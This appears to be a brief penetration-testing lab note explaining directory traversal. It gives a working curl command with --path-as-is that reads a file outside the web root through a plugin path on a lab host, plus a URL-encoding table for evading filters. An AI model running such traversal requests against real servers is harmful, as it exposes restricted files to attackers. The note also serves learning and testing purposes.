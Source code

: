 

Directory traversal, also known as path traversal or directory climbing, is **a vulnerability in a web application server caused by a HTTP exploit**. The exploit allows an attacker to access restricted directories, execute commands, and view data outside of the web root folder where application content is stored.


we can use `curl` with `--path-as-is` which will alow us to send path as it is.
`curl --path-as-is http://192.168.243.193:3000/public/plugins/alertlist/../../../../../../../Users/install.txt`

we can also try to use url encoding like

| symbol | value |
| ---- | ---- |
| / | %2F |
| . | %2E |
